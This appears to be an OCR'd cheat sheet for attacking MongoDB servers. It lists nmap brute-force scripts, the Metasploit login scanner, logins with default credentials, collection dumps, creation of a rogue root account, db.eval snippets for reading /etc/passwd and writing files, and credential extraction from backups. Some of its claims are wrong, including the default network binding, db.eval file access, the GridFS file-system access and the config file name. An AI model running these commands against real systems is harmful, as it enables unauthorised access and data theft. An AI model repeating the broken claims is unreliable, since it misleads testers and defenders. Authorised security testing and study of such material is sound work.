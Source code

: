 # MongoDB

#### 1) Run nmap 

Brute-force attacl

    nmap -sV --script mongodb-brute -n -p 27017 <IP>

Enumeration

    nmap -sV --script "mongo* and default" -p 27017 <IP>

#### 2) Metasploit MongoDB Login Scanner

    use auxiliary/scanner/mongodb/mongodb_login
    set RHOSTS <target_ip>
    set RPORT 27017
    run

#### 3) Manual Interaction via PyMongo



    from pymongo import MongoClient
    client = MongoClient('host', 27017, username='username',
    password='password')
    client.server_info() # Retrieve basic server info
    admin = client.admin #If we have admin creds available
    admin_info = admin.command("serverStatus")
    
    # List databases
    cursor = client.list_databases()
    for db in cursor:
    print(db)
    print(client[db["name"]].list_collection_names())

#### 4) MongoDB commands

    show dbs # List databases
    use <db> # Switch to the desired database
    show collections # List collections in the selected database
    db.<collection>.find() # Dump the contents of a collection
    db.<collection>.count() # Get the number of records in the collection
    db.current.find({"username":"admin"}) # Search for a specific user

#### 5) MongoDB Login methods

Basic MongoDB login without specifying a database:

    mongo <HOST>

Specify both host and port:

    mongo <HOST>:<PORT>

Specify a particular database:

    mongo <HOST>:<PORT>/<DB>

Login with a username and password:

    mongo <database> -u <username> -p '<password>'

If no credentials are required, you’ll gain access to the instance. However, if
authentication is enabled, you’ll need valid credentials

#### 6) Manual Inspection

Configuration file: mongo.db

Bitnami MongoDB setup

    /opt/bitnami/mongodb/mongodb.conf

Check if authentication is not required (noauth enabled). If true, then MongoDB is running without authentication.

    grep "noauth.*true" /opt/bitnami/mongodb/mongodb.conf | grep -v "^#"

Connect to MongoDB without authentication

    mongo <TARGET_IP>:27017

#### 7) Default Admin Users

Attackers who gain access to a user-level MongoDB account can escalate their privileges by logging in as the admin user if authentication isn’t properly configured.

Identify the Admin Database

    show dbs

Switch to admin database and check if a user exists

    use admin show users

Login with default or weak credentials

    mongo admin -u admin -p 'password' --host <TARGET_IP>:27017

#### 8) Misconfigured Role-Based Access Control (RBAC)

MongoDB uses Role-Based Access Control (RBAC) to define what actions users can perform. Sometimes, roles are misconfigured, allowing users with limited roles to gain access to privileged operations.

Enumerate User Roles 

    db.runCommand({ connectionStatus: 1 })

Misconfigured privileges:

    dbAdmin
    readWrite

Sensitive database: admin

Example: Create a new admin account

    db.createUser({
    user: "newAdmin",
    pwd: "secure_password",
    roles: [ { role: "root", db: "admin" } ]
    })

#### 9) File System Access via MongoDB

MongoDB allows you to store files and binary data using the GridFS system. If the attacker gains dbOwner or dbAdmin privileges, they can exploit MongoDB to read or write files directly to the underlying system.

Privileges: 

    dbOwner
    dbAdmin

Write a file to the system

    db.eval("var file = new File('/path/to/target/file.txt', 'w'); file.write('malicious content'); file.close();")

Read files from the system

    db.eval("var file = cat('/etc/passwd'); print(file);")

#### 10) Insecure Bindings

By default, MongoDB listens on all available network interfaces, which can expose the database to the public internet. If attackers can gain access to an exposed MongoDB API, they may escalate privileges through misconfigured network settings.

Identify the Binding IP (Check if MongoDB is open to the public internet)

    db.adminCommand({getCmdLineOpts: 1}).parsed.net.bindIp

If yes, connect remotely as admin

    mongo <TARGET_IP>:27017/admin -u admin -p 'admin_password'

#### 11) Misconfigured backup systems

MongoDB databases are often backed up regularly. If these backups are exposed to unauthorized users or misconfigured, an attacker can gain access to sensitive data or credentials stored in these backups.

Access backup directories

    mongorestore --host localhost --port 27017 --db admin /path/to/backup

Extract Admin credentials from backup

    use admin
    db.system.users.find()

